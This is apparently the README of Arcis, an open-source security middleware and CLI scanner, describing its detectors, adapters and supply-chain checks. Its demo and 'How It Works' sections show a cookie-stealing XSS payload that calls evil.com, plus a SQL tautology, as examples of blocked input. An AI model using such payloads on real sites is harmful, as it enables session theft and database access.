

> [!NOTE]
> **New in v1.6: Interactive REPL (`arcis` with no args), V32-V34 vectors (toolcall injection, deserialization markers, GraphQL alias bomb), and the first stateful primitive (`CorrelationWindow`). `arcis sca` ships with 100 curated supply chain advisories embedded (59 npm + 41 PyPI, including axios 2026 + litellm 2026 + colourama + event-stream + ua-parser-js + @solana/web3.js) plus a live OSV layer via `--osv`. [See the CLI section →](#arcis-cli)**

<div align="center">



# Arcis: Security Middleware for Every Backend

[](https://www.npmjs.com/package/@arcis/node)
[](https://www.npmjs.com/package/@arcis/node)
[](https://pypi.org/project/arcis/)
[](https://pypi.org/project/arcis/)
[](https://opensource.org/licenses/MIT)

**Inside-the-app security middleware. One install. Three languages.** <br />
Blocks XSS, SQL injection, SSRF, CSRF, prompt injection, bot traffic, and 20+ more attack types before your handler runs. Fully open-source. No cloud dependency. No closed binaries. No agent.

**Install once. Protect everything.**

[Docs](https://gagancm.github.io/arcis/documentation/) · [Quickstart](https://gagancm.github.io/arcis/documentation/getting-started.html) · [Detectors](https://gagancm.github.io/arcis/documentation/detectors/) · [Threat DB](https://gagancm.github.io/arcis/documentation/threats-db.html) · [Release notes](https://gagancm.github.io/arcis/documentation/release-notes.html) · [Why Arcis](https://gagancm.github.io/arcis/documentation/why-arcis.html)

---

</div>

## 30-second demo

A POST request arrives at `/api/comments` with this body:

```json
{
  "author": "alice",
  "body": "Great article! <script>document.location='https://evil.com/steal?cookie='+document.cookie</script>",
  "rating": "5 OR 1=1 --"
}
```

Without Arcis, the `<script>` runs in every viewer's browser and the SQL fragment hits your DB. With `app.use(arcis({ block: true }))`, the request never reaches your handler:

```
arcis.deny  vector=xss  rule=patterns.xss.script-tag  route=POST /api/comments  ip_hash=a91b...
arcis.deny  vector=sql  rule=patterns.sql.boolean-tautology
```

Or, in sanitize mode (the default), your handler gets:

```json
{
  "author": "alice",
  "body": "Great article! ",
  "rating": "5"
}
```

The detection model runs on top of NFKC Unicode normalization + a multi-decode chain, so fullwidth `＜script＞`, URL-encoded `%3Cscript%3E`, and triple-encoded variants reach the detector as the same string. The same call returns the same result in Node, Python, and Go — enforced by [shared test vectors](https://github.com/Gagancm/arcis/blob/main/spec/TEST_VECTORS.json).

---

## What is Arcis?

Arcis is a security middleware library that protects web applications against 20+ attack types at runtime. It works with **Node.js**, **Python**, and **Go**, with a consistent API across all three.

Arcis sits between incoming requests and your application code. It sanitizes input, detects attack patterns, enforces rate limits, sets security headers, and blocks malicious traffic before your code ever sees the request. Only proven, pattern-matched threats are blocked. Safe input passes through untouched.

**Why Arcis Exists**

Securing a modern backend usually means stitching together eight to twelve separate packages, one per concern (headers, rate limits, CSRF, sanitization, CORS, validation, bot detection, error scrubbing). Each ships its own API, its own config, its own release cycle. Most developers skip half of them because the setup is too complex.

Arcis replaces the patchwork with one package and one line of code, and gives you the same API in three languages.

## Arcis in Action

```
User sends request → [ARCIS] → Your application code

At the checkpoint, Arcis:
  1. Rate limits — is this IP flooding requests?
  2. Bot detection — is this a known malicious bot?
  3. Sanitization — strip XSS, SQL injection, command injection, etc.
  4. CSRF verification — is this a legitimate form submission?
  5. Validation — does the input match expected schema?
      ↓
  Your code runs with clean, validated input
      ↓
  6. Response hardening — security headers, secure cookies, CORS, error scrubbing
```

## Features

- **One-line setup**: `app.use(arcis())` activates sanitization, rate limiting, and security headers. CSRF, CORS, cookies, bot detection, prompt-injection guard, token-budget guard, and error handling are opt-in middleware.
- **20+ attack types**: XSS, SQL/NoSQL injection, command injection, path traversal, SSTI, XXE, SSRF, CSRF, HPP, prototype pollution, header injection, open redirect, LDAP injection.
- **AI-era protections**: `detectPromptInjection` + `sanitizePromptInjection` cover ~28 jailbreak signatures (DAN/STAN/DUDE, system-prompt extraction, fake `<system>` tags, base64 smuggling). `tokenBudget` middleware caps per-key LLM token spend over a sliding window.
- **650-pattern bot corpus**: 635 patterns sourced from the standalone [`getarcis/well-known-bots`](https://github.com/getarcis/well-known-bots) MIT corpus plus 15 Arcis-specific supplementary entries (Selenium, Puppeteer, Playwright, Cypress, WebDriver, headless browser fakes). 7 categories (search engines, social, monitoring, AI crawlers, scrapers, automated tools, unknown) with allow/deny lists and behavioral signal detection.
- **Lean dependencies**: Node + Python SDKs ship with zero runtime dependencies. Go SDK has a stdlib-only core; framework adapters (Gin, Echo, chi, Fiber) are imported on demand.
- **Three-language parity**: Same API, same behavior, same test results across Node.js, Python, and Go. Enforced by shared test vectors.
- **Framework adapters (Node)**: ten subpath imports keep each framework SDK as a type-only dependency, so non-users pay nothing. Adapter surface varies by framework:
  - *Full sanitizer pipeline* (XSS, SQL, NoSQL, SSTI, XXE, path, command, prompt injection, prototype, LDAP, XPath, header injection): **Express** (`@arcis/node`), **NestJS** (`@arcis/node/nestjs`).
  - *Rate-limit + bot + security headers* (narrower scope because the runtime cannot easily inspect request bodies, or because the adapter is `v1` and ships the basics first): **Fastify, Koa, Hono, Next.js (Edge Middleware), SvelteKit, Astro, Nuxt, Bun**. Pair with `sanitizeObject()` / `detectXss()` / `sanitizeString()` from `@arcis/node/sanitizers` inside your route handlers for body-payload inspection.
- **Framework adapters (Python)**: FastAPI, Flask, Django, Litestar (full pipeline on every adapter — Python middleware can read request bodies natively).
- **Framework adapters (Go)**: Gin, Echo, chi, Fiber, plus a stdlib `net/http` helper (full pipeline on every adapter when `Block: true` is set).
- **Context-aware output encoding**: `encodeForHtml()`, `encodeForJs()`, `encodeForUrl()`, `encodeForCss()`, `encodeForAttribute()` for safe rendering in every output context.
- **Supply chain scanner**: `arcis sca` checks lockfiles, `node_modules`, and Python environments against a database of known compromised packages.
- **Static analysis CLI**: `arcis scan` and `arcis audit` flag unsafe patterns (`eval()`, `pickle.loads()`, `innerHTML`, SQL concat, SSRF sinks, weak crypto) across 24 rules.
- **Interactive REPL (v1.6)**: `arcis` with no args drops into a full-screen TUI ("Arcis Console") with a persistent welcome banner, scrollback, slash commands (`/help`, `/clear`, `/cwd`, `/export`, `/exit`), command history at `~/.arcis/history`, and F2 / Shift-F2 jump-to-finding navigation. Opt out with `ARCIS_NO_REPL=1` or in CI / piped contexts (auto-disabled).
- **Tier 1 detection hardening (v1.6)**: NFKC Unicode normalization + multi-decode chain close the fullwidth and encoding-stack bypass classes across every detector. Mutation tester runs 142 case/encoding/Unicode variants against the corpus on every PR. Go SDK now loads `patterns.json` at runtime via `//go:embed` for cross-SDK parity.
- **New v1.6 vectors**: V32 toolcall-injection patterns in `detectPromptInjection`. V33 modern deserialization markers (`detectDeserialization` — Python pickle, Java FastJSON `@type`, PHP `unserialize`, Ruby Marshal, .NET BinaryFormatter). V34 GraphQL alias bomb + fragment cycle (`max_aliases` + `block_fragment_cycles` options in `graphqlGuard`).
- **Stateful per-IP correlation (v1.6)**: `CorrelationWindow` middleware tracks a 60s rolling window per IP with scanner / credential-stuffing / race-window detection. `protectLogin / protectSignup / protectApi` accept a `correlation: { window }` option to wire it through with one line.

## Threat Coverage

| Category | What it stops |
|----------|--------------|
| **XSS** | Script injection, event handlers, `javascript:` URIs, SVG/iframe payloads |
| **SQL Injection** | Keywords, boolean logic, comments, time-based blind (`SLEEP`, `BENCHMARK`, `pg_sleep`, `WAITFOR DELAY`) |
| **NoSQL Injection** | MongoDB operators (`$gt`, `$where`, `$regex`, `$function`, 35 blocked operators) |
| **Command Injection** | Shell metacharacters, dangerous commands, redirections, newline injection |
| **Path Traversal** | `../`, encoded variants (`%2e%2e`), double-encoding (`%252f`), null byte injection |
| **Prototype Pollution** | `__proto__`, `constructor`, `__defineGetter__`, 7 keys blocked (case-insensitive) |
| **SSTI** | Jinja2 `{{`, Twig, Freemarker, ERB/EJS, Pug/Jade, Python dunder chains |
| **XXE** | DOCTYPE, ENTITY, SYSTEM/PUBLIC references, CDATA, parameter entities |
| **JSONP Injection** | Callback whitelist validation, blocks XSS in JSONP responses |
| **HTTP Header Injection** | CRLF injection, response splitting, null bytes |
| **SSRF** | Private IPs, loopback, link-local, cloud metadata, decimal/octal/IPv6-mapped bypass detection |
| **Open Redirect** | Absolute URLs, `javascript:`, protocol-relative, backslash/control char bypass |
| **CSRF** | Double-submit cookie, token generation and validation |
| **Rate Limiting** | Per-IP, sliding window, token bucket, in-memory or Redis, `X-RateLimit-*` headers |
| **Bot Detection** | 650 patterns (635 from the [`getarcis/well-known-bots`](https://github.com/getarcis/well-known-bots) MIT corpus + 15 Arcis additions for Selenium / Puppeteer / Playwright / Cypress / WebDriver / headless browser fakes). 7 categories (search engines, social, monitoring, AI crawlers, scrapers, automated tools, unknown), behavioral signals on missing browser headers. |
| **MCP server (`@arcis/mcp`)** | Model Context Protocol server exposing `arcis_audit`, `arcis_sca`, `arcis_scan`, and `arcis_detect_prompt_injection` as tools that Cursor and any MCP-aware AI agent can call. |
| **Prompt Injection** | 28 signatures across HIGH/MEDIUM/LOW tiers: jailbreak frameworks, system-prompt extraction, fake `<system>` tags, conversation-replay forgeries, base64/ROT13 smuggling hints, plus 5 v1.6 agent toolcall patterns (`"tool_call"` / `"function_call"` markers, ANSI escapes, tool-name spoofing) |
| **Modern Deserialization (v1.6)** | `detectDeserialization()` flags request bodies that look like Python pickle (`\x80\x04`), Java FastJSON (`"@type":`), PHP `unserialize` (`O:N:"Class":`), Ruby Marshal (`\x04\x08`), or .NET BinaryFormatter (`\x00\x01\x00\x00\x00`). Detection-only: caller refuses the request. |
| **GraphQL Abuse** | `graphqlGuard` rejects oversize queries, deep selection sets, introspection in production, and (v1.6) alias bombs + fragment cycles via `max_aliases` and `block_fragment_cycles`. |
| **Stateful correlation (v1.6)** | `CorrelationWindow` middleware tracks a 60s rolling window per IP. Detects active scanners (`distinct_vectors >= 3 AND requests >= 20`), credential stuffing (`>= 10 distinct usernames on /login in 60s`), and race-window probes (route-pair within 200ms). Pairs with `protectLogin / protectApi`. |
| **LLM Token Budget** | Per-key sliding-window token cap with optional per-request size limit. Custom estimator hook for tiktoken or your own counter. `X-Token-Budget-*` headers on every response |
| **Security Headers** | CSP, HSTS, X-Frame-Options, COOP, CORP, COEP, Origin-Agent-Cluster, X-DNS-Prefetch-Control (16 headers) |
| **Error Leakage** | Stack traces, DB errors, connection strings, internal IPs scrubbed in production |
| **CORS** | Whitelist-based origins, `null` origin blocked, `Vary: Origin` enforced |
| **Cookie Security** | HttpOnly, Secure, SameSite enforced on all cookies |
| **HTTP Parameter Pollution** | Normalizes duplicate query/body params (`?role=user&role=admin` → `role=admin`). Originals preserved in `queryPolluted` for auditing |
| **Input Validation** | Type checking, ranges, enums, email (disposable blocklist, typo suggestions, MX verify), mass assignment prevention |
| **PII Detection** | `scanPii()`, `redactPii()` detect and redact emails, phone numbers, SSNs, credit cards |

> [!IMPORTANT]
> **Defense-in-depth.** Arcis is a strong runtime security layer, but it does not replace parameterized queries, proper authentication, or TLS configuration. Use Arcis alongside your existing security practices.

## Table of Contents

- [What is Arcis?](#what-is-arcis)
- [Arcis in Action](#arcis-in-action)
- [Features](#features)
- [Threat Coverage](#threat-coverage)
- [Quick Start](#quick-start)
- [Framework Guides](#framework-guides)
- [Core Functions (Framework-Agnostic)](#core-functions-framework-agnostic)
- [CLI Tools](#cli-tools)
- [Architecture](#architecture)
- [Supported Frameworks](#supported-frameworks)
- [Test Suite](#test-suite)
- [How It Works](#how-it-works)
- [Comparison](#comparison)
- [Roadmap](#roadmap)
- [Disclaimers](#disclaimers)
- [Documentation](#documentation)
- [Contributing](#contributing)
- [License](#license)
- [Community & Support](#community--support)

---

## Quick Start

### Install

```bash
npm install @arcis/node          # Node.js SDK
pip install arcis                # Python SDK
go get github.com/GagancM/arcis  # Go SDK

npm install -g @arcis/cli        # CLI: audit / scan / sca (single static binary)
```

> **Heads up — three rules that catch every newcomer:**
> 1. **Install in your backend project, not the frontend.** Arcis is server-side middleware. Bundling it into a React / Vite / Next.js client folder leaks the API key into client JS and the middleware never runs there anyway.
> 2. **`.env` lives next to the server entry point.** Add `ARCIS_KEY=...`, `ARCIS_WORKSPACE_ID=...`, `ARCIS_ENDPOINT=...`. Do **not** prefix with `NEXT_PUBLIC_`, `VITE_`, or `REACT_APP_` — those expose values to the browser. Add `.env` to `.gitignore`.
> 3. **The CLI is its own package.** `audit`, `scan`, and `sca` ship as a native binary via `npm install -g @arcis/cli`. It works regardless of whether your app is Node, Python, or Go. (Before v1.5.0 the CLI shipped inside the Python SDK; that's no longer the case.)

### Protect Your App (One Line)

**Node.js (Express):**
```js
import express from 'express';
import { arcis } from '@arcis/node';
import 'dotenv/config';

const app = express();
// block: true returns 403 on detected attacks. Default is false
// (sanitize + observe) so existing apps don't break on rollout.
app.use(arcis({ block: true }));
// Core active: sanitization, rate limiting, security headers.
// Optional: corsProtection(), csrfProtection(), botProtection(), cookieSecurity()
```

**Python (FastAPI):**
```python
from fastapi import FastAPI
from arcis import ArcisMiddleware
from dotenv import load_dotenv

load_dotenv()
app = FastAPI()
app.add_middleware(ArcisMiddleware, block=True)
```

**Python (Flask):**
```python
from flask import Flask
from arcis import Arcis
from dotenv import load_dotenv

load_dotenv()
app = Flask(__name__)
Arcis(app, block=True)
```

**Python (Django):**
```python
# settings.py → MIDDLEWARE
'arcis.django.ArcisMiddleware'
```

**Go (Gin):**
```go
r.Use(arcisgin.Middleware(arcis.Config{Block: true}))
```

**Go (Echo):**
```go
e.Use(arcisecho.Middleware(arcis.Config{Block: true}))
```

That's it. Your application is now protected against 20+ security flaws.

---

## Framework Guides

### Node.js (Express)

```js
import express from 'express';
import { arcis } from '@arcis/node';
import 'dotenv/config';

const app = express();
app.use(arcis({ block: true }));
```

### Node.js (Fastify, Koa, Hono, etc.)

The core functions have zero framework dependencies. Use them directly:

```js
import { sanitizeObject } from '@arcis/node';

// Fastify
fastify.addHook('preHandler', async (request, reply) => {
  if (request.body) request.body = sanitizeObject(request.body);
  if (request.query) request.query = sanitizeObject(request.query);
});

// Koa
app.use(async (ctx, next) => {
  if (ctx.request.body) ctx.request.body = sanitizeObject(ctx.request.body);
  await next();
});

// Hono
app.use('*', async (c, next) => {
  const body = await c.req.json().catch(() => null);
  if (body) c.set('sanitizedBody', sanitizeObject(body));
  await next();
});
```

> Built-in adapters now ship for Fastify (`@arcis/node/fastify`), Koa (`@arcis/node/koa`), and Hono (`@arcis/node/hono`) alongside the existing Express, Next.js, NestJS, SvelteKit, Astro, Nuxt, and Bun adapters.

---

## Core Functions (Framework-Agnostic)

Every function below works with plain strings and objects. No `req`, `res`, or framework dependency. Works in Express, Fastify, Koa, Hono, Nest, Bun, Deno, serverless, or anywhere else.

```js
import {
  // Sanitize — strip dangerous patterns
  sanitizeString, sanitizeObject, sanitizeSsti, sanitizeXxe, sanitizeJsonpCallback,

  // Detect — flag threats without modifying input
  detectXss, detectSql, detectSsti, detectXxe, detectHeaderInjection,

  // Encode — context-aware output encoding
  encodeForHtml, encodeForAttribute, encodeForJs, encodeForUrl, encodeForCss,

  // Validate — block SSRF, open redirects, bad input
  validateUrl, validateRedirect, validateEmail,

  // Protect — PII, logging, utilities
  scanPii, redactPii, createSafeLogger,
} from '@arcis/node';
```

Subpath imports for tree-shaking:

```js
import { sanitizeString, encodeForHtml } from '@arcis/node/sanitizers';
import { createSafeLogger } from '@arcis/node/logging';
import { MemoryStore } from '@arcis/node/stores';
```

---

## Arcis CLI

The CLI ships as a single static native-Rust binary, installed via npm:

```bash
npm install -g @arcis/cli
arcis --version
```

One install, no Python required, works regardless of whether your app is Node, Python, or Go. Cold start is ~30-60ms (vs ~700ms for the legacy Python CLI). The threat database is embedded; the binary runs fully offline.

### Interactive Console (v1.6)

Running bare `arcis` in a TTY drops into a full-screen interactive console:

```bash
$ arcis
```

A persistent welcome banner sits at the top with the version, working directory, available adapters, and quick-start commands. Type `audit .`, `sca .`, `scan <url>`, or `/help`. Output streams into the scrollback in real time, and the prompt stays pinned at the bottom.

| Surface | What it does |
|---|---|
| `audit .` / `sca .` / `scan <url>` | Run any scanner inline; output appended to the scrollback |
| `PgUp` / `PgDn` | Scroll the scrollback by a page |
| `F2` / `Shift-F2` | Jump to the next / previous finding (any line starting with `CRITICAL` / `HIGH` / `MEDIUM` / `LOW`) |
| `↑` / `↓` | Walk through command history (persisted at `~/.arcis/history`, 200 entries) |
| `/help` | Show the welcome banner again |
| `/clear` | Wipe the scrollback (banner re-appears) |
| `/cwd <path>` | Change working directory without leaving the console |
| `/export [file]` | Save the current session to a markdown file |
| `/exit` / `Ctrl-D` | Leave the console |
| `Ctrl-C` | Cancel the running command (does not exit) |
| `Esc` | Clear current input and snap back to the tail |

ANSI color from subprocesses is preserved in the scrollback. Disable the auto-launch behavior with `ARCIS_NO_REPL=1` (the REPL is also auto-disabled under CI or when stdout is piped, so scripts keep getting one-shot output).

### Static Analysis (`arcis audit`)

```bash
# Audit a project for unsafe code patterns
arcis audit /path/to/project --language python --severity high

# 24 rules covering eval/exec/pickle/yaml.load/innerHTML/document.write/
# bypassSecurityTrust*/JWT-without-alg/SQL-string-concat/SSRF-sinks/weak-crypto.
arcis audit . --verbose
arcis audit . --fail-on high                     # exit 1 on any HIGH+ finding
arcis audit . --json                             # machine-readable JSON
arcis audit . --sarif                            # GitHub Code Scanning compatible
arcis audit . --baseline ./.arcis-baseline.json  # ignore pre-existing findings
```

Supported languages: `python`, `javascript`, `typescript`.

### Endpoint Probe (`arcis scan`)

```bash
# Probe a live HTTP endpoint for injection susceptibility
arcis scan http://localhost:5000

# 17 attack vectors fired with smart payload sequencing; flags any
# unsafely-reflected response, weak header, missing CSRF, etc.
arcis scan https://api.example.com --csrf-from /login --bearer "$TOKEN"
arcis scan http://localhost:5000 --json --cancel-on first-finding
```

### Supply Chain Scanner (`arcis sca`)

Detects compromised packages from known supply chain attacks. Scans lockfiles, `node_modules`, Python environments for malicious versions and backdoor artifacts.

```bash
# Match dependencies against the embedded threat database
arcis sca .

# Pull live OSV advisories on top of the embedded DB (24h cached)
arcis sca . --osv

# Include globally-installed pip packages + .pth backdoor sweep
arcis sca . --system

# Machine-readable / GitHub-compatible output
arcis sca . --json
arcis sca . --sarif

# Inventory only — generate a CycloneDX SBOM
arcis sca . --sbom

# List every threat in the embedded DB with source advisory links
arcis sca --list-threats
```

Scans `package-lock.json` (v1 + v3), `yarn.lock`, `pnpm-lock.yaml`, `node_modules/`, `requirements.txt`, `Pipfile.lock`, `poetry.lock`, plus Python `site-packages` for `.pth` backdoors with `--system`. Detects 100+ curated supply chain advisories including the 2026 axios (`plain-crypto-js` RAT), litellm (credential harvester + persistent `.pth` backdoor), and colourama compromises. Exit code 1 if any malicious package is found, so it slots straight into CI.

**Offline by default.** All checks read local files. `--osv` is the only flag that hits the network, and even then results are cached for 24h under `~/.arcis/osv-cache.json`. Every detection in the embedded DB can be audited in [`arcis-data/data/threat-db.json`](packages/arcis-rust/crates/arcis-data/data/threat-db.json) with a source advisory link.

---

## Architecture

Arcis separates **core security logic** from **framework adapters**:

```
┌──────────────────────────────────────────────────────────────┐
│                     SPECIFICATION LAYER                       │
│  spec/API_SPEC.md        — function contracts (the rules)    │
│  spec/TEST_VECTORS.json  — expected behaviors (the tests)    │
│  packages/core/patterns.json — regex patterns (the detection)│
└────────────┬──────────────────┬───────────────────┬──────────┘
             │                  │                   │
      ┌──────▼──────┐   ┌──────▼──────┐    ┌───────▼──────┐
      │   CORE      │   │   CORE      │    │   CORE       │
      │  Node.js    │   │  Python     │    │    Go        │
      │  (TS)       │   │             │    │              │
      │  Sanitizers │   │  Sanitizers │    │  Sanitizers  │
      │  Validators │   │  Validators │    │  Validators  │
      │  Rate limit │   │  Rate limit │    │  Rate limit  │
      │  Logger     │   │  Logger     │    │  Logger      │
      └──────┬──────┘   └──────┬──────┘    └───────┬──────┘
             │                  │                   │
      ┌──────▼──────┐   ┌──────▼──────┐    ┌───────▼──────┐
      │  ADAPTERS   │   │  ADAPTERS   │    │  ADAPTERS    │
      │  Express    │   │  FastAPI    │    │  Gin         │
      │             │   │  Flask      │    │  Echo        │
      │             │   │  Django     │    │  net/http    │
      └─────────────┘   └─────────────┘    └──────────────┘
```

### Processing Pipeline

```
Request arrives
    │
    ▼
[1] Rate Limiting ─── too many requests? → 429
    │
    ▼
[2] Bot Detection ─── known malicious bot? → 403
    │
    ▼
[3] Input Sanitization ─── strip XSS, SQL, NoSQL, path traversal,
    │                       command injection, SSTI, XXE, JSONP,
    │                       header injection, prototype pollution
    ▼
[4] CSRF Verification ─── forged request? → 403
    │
    ▼
[5] Input Validation ─── invalid schema? → 400
    │
    ▼
    Your application code (clean, validated input)
    │
    ▼
[6] Response Hardening ─── security headers, secure cookies,
                           CORS policy, error scrubbing
    │
    ▼
Response sent to client
```

### Design Principles

| Principle | What It Means |
|-----------|--------------|
| **Contract-First** | Specification before code. `API_SPEC.md` → `TEST_VECTORS.json` → implementation. |
| **Lean Dependencies** | Node + Python SDKs ship with zero runtime dependencies. Go SDK has a stdlib-only core; framework adapters (Gin, Echo) are imported on demand. |
| **Fail Open** | If infrastructure (Redis) fails, allow requests through. Availability > denial. |
| **Defensive Defaults** | Secure out of the box. Users opt OUT of protection, not in. |
| **Remove Then Encode** | Strip dangerous patterns before encoding. Encoding first hides them from pattern matching. |
| **Cross-SDK Parity** | Same input → same output in all three languages. Enforced by shared test vectors. |
| **Idempotent** | `sanitize(sanitize(x)) === sanitize(x)`. Safe input is never corrupted. |

---

## Supported Frameworks

| SDK | Full-pipeline adapters | Edge / narrow-scope adapters | Status |
|-----|------------------------|------------------------------|--------|
| **Node.js** | Express, NestJS | Fastify, Koa, Hono, Next.js, SvelteKit, Astro, Nuxt, Bun | Stable |
| **Python** | FastAPI, Flask, Django, Litestar | (none — every Python adapter runs the full pipeline) | Stable |
| **Go** | Gin, Echo, chi, Fiber, net/http | (none — every Go adapter runs the full pipeline when `Block: true`) | Stable |

**Full-pipeline** adapters run the full Arcis sanitization stack (XSS, SQL, NoSQL, SSTI, XXE, path, command, prototype, prompt injection, LDAP, XPath, header injection) against query, params, headers, and body.

**Edge / narrow-scope** adapters ship rate-limit + bot + security headers only. The runtime either cannot easily inspect request bodies (Next.js Edge Middleware, Cloudflare Workers via Hono, Bun) or the adapter is `v1` and deliberately keeps the surface narrow (Fastify, Koa, SvelteKit, Astro, Nuxt). Pair with `sanitizeObject()` / `detectXss()` / `sanitizeString()` from `@arcis/node/sanitizers` inside route handlers for body-payload inspection.

Import any subpath via `@arcis/node/<adapter>` (e.g., `@arcis/node/fastify`, `@arcis/node/nextjs`). Framework types stay compile-time-only.

---

## Test Suite

All SDKs are tested against a shared set of test vectors (`TEST_VECTORS.json`) to enforce identical behavior across languages.

| SDK | Tests | Framework | Status |
|-----|-------|-----------|--------|
| Node.js | 2,116+ | vitest | All passing |
| Python | 1,688+ | pytest | All passing |
| Go | 483+ | go test -race | All passing |
| **Total** | **4,287+** | | |

---

## How It Works

All SDKs load security patterns from a shared `patterns.json` at runtime. A shared specification (`API_SPEC.md`) and test vectors (`TEST_VECTORS.json`) enforce identical behavior across languages.

**Example: without Arcis**

A user posts this comment:
```
Great article! <script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```
That script runs in every visitor's browser and steals their session cookie.

**With Arcis**, the stored value becomes:
```
Great article!
```
The script is stripped. The rest of the comment is saved normally.

---

## Comparison

| Capability | Arcis | Helmet | DOMPurify | express-rate-limit | Arcjet | Aikido Zen |
|-----------|-------|--------|-----------|-------------------|--------|------------|
| XSS sanitization | Yes | No | Yes | No | No | Yes |
| SQL injection | Yes | No | No | No | No | Yes |
| Rate limiting | Yes | No | No | Yes | Yes | Yes |
| Security headers | Yes | Yes | No | No | Yes | No |
| CORS | Yes | No | No | No | No | No |
| CSRF | Yes | No | No | No | No | Yes |
| Bot detection | Yes | No | No | No | Yes | Yes |
| Input validation | Yes | No | No | No | No | No |
| SSRF prevention | Yes | No | No | No | No | Yes |
| Multi-language | 3 SDKs | Node only | Browser only | Node only | Node + Python | Node + Python |
| Lean core dependencies | Yes | Yes | No | No | No | No |
| Open Source | Yes | Yes | Yes | Yes | Freemium | Paid |
| CLI scanner | Yes | No | No | No | No | Yes |

---

## Roadmap

### What's new in v1.6

- **Interactive REPL** ("Arcis Console") with persistent welcome banner, scrollback, slash commands, history file at `~/.arcis/history`, F2 / Shift-F2 jump-to-finding, ANSI color preservation.
- **Welcome screen V2**: rounded box layout with title in border, two-pane content, all three adapter languages (node + python + go) listed.
- **Tier 1 detection hardening**: NFKC Unicode normalization + multi-decode chain across all 3 SDKs, mutation tester suite (142 case/encoding/Unicode variants), Oracle DBMS_* + `${IFS}` patterns added to the shared corpus, Go SDK now reads `patterns.json` at runtime via `//go:embed`.
- **New vectors**: V32 toolcall-injection patterns, V33 modern deserialization markers (`detectDeserialization`), V34 GraphQL alias bomb + fragment cycle detection.
- **Stateful primitive**: `CorrelationWindow` middleware (60s rolling per IP) with scanner / credential-stuffing / race-window detection. `protectLogin / protectSignup / protectApi` accept a `correlation` option to wire it through.

### v1.0 through v1.5

- 20+ security flaw coverage (runtime + detection)
- 3 SDKs (Node.js, Python, Go) at full parity
- **19 framework adapters**: Express, NestJS, Fastify, Koa, Hono, Next.js, SvelteKit, Astro, Nuxt, Bun (Node, 10 total), FastAPI, Flask, Django, Litestar (Python, 4 total), Gin, Echo, chi, Fiber, net/http (Go, 5 total)
- **650-pattern bot corpus** (was 80) with allow/deny categorization
- **AI/LLM prompt-injection detection** across all 3 SDKs (28 signatures, 3 severity tiers)
- **`tokenBudget` middleware** for per-key LLM token spend caps
- 3 rate limiting algorithms (fixed, sliding, token bucket)
- Redis store support
- `arcis scan` + `arcis audit` + `arcis sca` CLI (native Rust, single binary via `npm install -g @arcis/cli`)
- `arcis audit` machine output: `--json`, `--sarif`, `--baseline`, `--fail-on <level>`, `--verbose`
- `arcis sca` enhancements: OSV layer (`--osv`, 24h cache), `--sbom` (CycloneDX), `--system` (global pip + `.pth` sweep), `--json`, `--sarif`
- Runtime telemetry stream to a self-hosted control plane (opt-in)
- Context-aware output encoding (HTML body, attributes, JS, CSS, URL)
- COOP, CORP, COEP cross-origin isolation headers
- HPP (HTTP Parameter Pollution) protection
- CSRF hardening (double-submit cookie + HMAC)
- LDAP injection protection
- SSTI and XXE sanitization across all 3 SDKs
- Security bypass hardening (Unicode normalization, decimal/octal IP encoding, surrogate pairs)
- Composite helpers: `protectLogin`, `protectSignup`, `protectApi`, `signup_protection`
- Guards API for non-HTTP contexts (queues, agent tool handlers, gRPC)
- `@arcis/mcp` server exposing audit/sca/scan/detect_prompt_injection as MCP tools
- ~4,287+ tests across 3 SDKs, published on npm + PyPI

### Planned

- Guards API: protect non-HTTP contexts (jobs, queues, agent tool handlers, gRPC) with the same Arcis decisions
- Security Score: `arcis scan --score` returns an actionable 0-100 score
- Advanced Rate Limiting: IPv6 subnet grouping, penalty/reward, dynamic limits
- GitHub Action: automatic security checks on every PR
- VS Code Extension: real-time security warnings while coding

For full roadmap details, see the [Wiki](https://github.com/Gagancm/arcis/wiki).

---

## Disclaimers

### What Arcis Cannot Replace

Arcis is a strong defense layer, but it is not a silver bullet:

| Concern | Why Middleware Isn't Enough | What You Still Need |
|---------|---------------------------|---------------------|
| SQL injection | Arcis detects and strips known SQL patterns from input. It does **not** enforce parameterized queries. Regex detection is a complementary layer, not a substitute. | Always use parameterized queries or an ORM. Arcis is defense-in-depth, not your primary SQL defense. |
| Rate limiting | Arcis rate limits at the application layer (per-process, with optional Redis for distributed). It does **not** replace proxy-level or load-balancer-level limiting. | Use your CDN, reverse proxy, or load balancer rate limiting as your first line. Arcis catches what slips through. |
| Business logic flaws | Only your code knows your business rules | Application-specific validation |
| Authentication | Arcis protects auth flows but doesn't implement auth | Use a proper auth library (Passport, Auth0, etc.) |
| Secrets management | Infrastructure concern, not middleware | Use environment variables or a secrets manager |
| HTTPS/TLS | Server configuration | Configure your web server or load balancer |

### Sanitization Approach

Arcis uses regex-based pattern matching for attack detection. This is a deliberate trade-off: lean dependency footprint and minimal overhead, at the cost of not having a full HTML/SQL parser.

**SQL injection specifically:** Arcis strips known SQL attack patterns from user input as a defense-in-depth layer. This is **not a replacement for parameterized queries**. It is an additional barrier. Your database layer should always use parameterized queries or a safe ORM.

**Rate limiting specifically:** Application-level rate limiting protects against floods reaching your application code. For high-traffic production systems, this should complement edge-level rate limiting at your CDN, reverse proxy, or load balancer, not replace it. Arcis supports Redis-backed distributed rate limiting for multi-instance deployments.

---

## Example apps

